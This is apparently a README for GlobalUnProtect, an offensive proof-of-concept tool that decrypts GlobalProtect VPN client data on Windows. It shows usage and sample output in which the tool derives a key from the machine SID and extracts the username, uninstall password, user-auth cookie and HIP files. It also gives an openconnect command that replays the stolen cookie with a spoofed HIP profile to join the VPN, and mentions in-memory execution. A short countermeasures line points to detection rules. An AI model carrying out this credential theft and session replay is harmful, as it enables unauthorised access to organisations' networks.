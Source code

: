 # GlobalUnProtect

PoC tool for decrypting and collecting GlobalProtect configuration, cookies, and HIP files from windows client installations. 

Blog post: https://rotarydrone.medium.com/4a1d8fc7773e

## Usage

Run as standalone or in-memory via execute-assembly or equivalent. Collects all contents to an in-memory zip and writes to specified location.

```
> GlobalUnProtect.exe
Usage: GlobalUnProtect.exe C:\Path\To\Output.zip
```

```
> GlobalUnProtect.exe %TEMP%\GPUnprotect.zip
[*] Deriving AES key from computer SID
        [*] Computer SID (Hex) : 010400000000000515000000EFC8897F22AF1E09042DC851
        [*] Derived AES Key: C41006BCDBEF6683B2E7387EA9487A77C41006BCDBEF6683B2E7387EA9487A77
[*] Starting search for GlobalProtect data files
        [*] Found: C:\Users\User\AppData\Local\Palo Alto Networks\GlobalProtect\PanPCD_2ab96390c7dbe3439de74d0c9b0b1767.dat
        [*] Found: C:\Users\User\AppData\Local\Palo Alto Networks\GlobalProtect\PanPortalCfg_2ab96390c7dbe3439de74d0c9b0b17676.dat
        [*] Found: C:\Users\User\AppData\Local\Palo Alto Networks\GlobalProtect\PanPUAC_2ab96390c7dbe3439de74d0c9b0b1767.dat
[*] PanPortalCfg_2ab96390c7dbe3439de74d0c9b0b1767.dat looks like a portal config file, parsing for convenience:
        [*] User Name: example\user
        [*] Portal: vpn.example.com
        [*] User Domain: example
        [*] Portal Name: 
        [*] Tenant Id: 100001
        [*] Uninstall password: uninstall-password
        [*] Portal Pre-logon Cookie: empty
        [*] Portal User-auth Cookie: NzFkZjM0NGJlNjQ0NGEyMzQyMDQ4MmY3ZWE1ZWY1Y2ZhN2FiNTEyNDg0OTJhNWI0NTlhNjkzZjNmMDE2MTYzNzAyMjAzNWE2MGY0Y2I0YmVlMWIyNzExNGYzMTQwYTA5YTY3MTFjNDQ2MmQ3MjQ4NTE5MDEzYzU1OWQ4MzgwYjU=
[*] Collecting HIP profile data files
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_AM_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_BC_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_DE_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_DLP_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_FW_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_PM_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HipPolicy.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\PanGpHip.log
[*] Writing output ZIP file to C:\Users\User\AppData\Local\Temp\GPUnprotect.zip
```

Connect via OpenConnect: 

```
$ sudo openconnect --protocol=gp --user="example\\username" --usergroup=portal:portal-userauthcookie --os=win https://vpn.example.com --csd-wrapper ~/tools/custom-hips-profile.sh
```


## Countermeasures

Yara and Sigma rules provided this repo are specific to the tool and behaviors observed when replaying cookies using OpenConnect.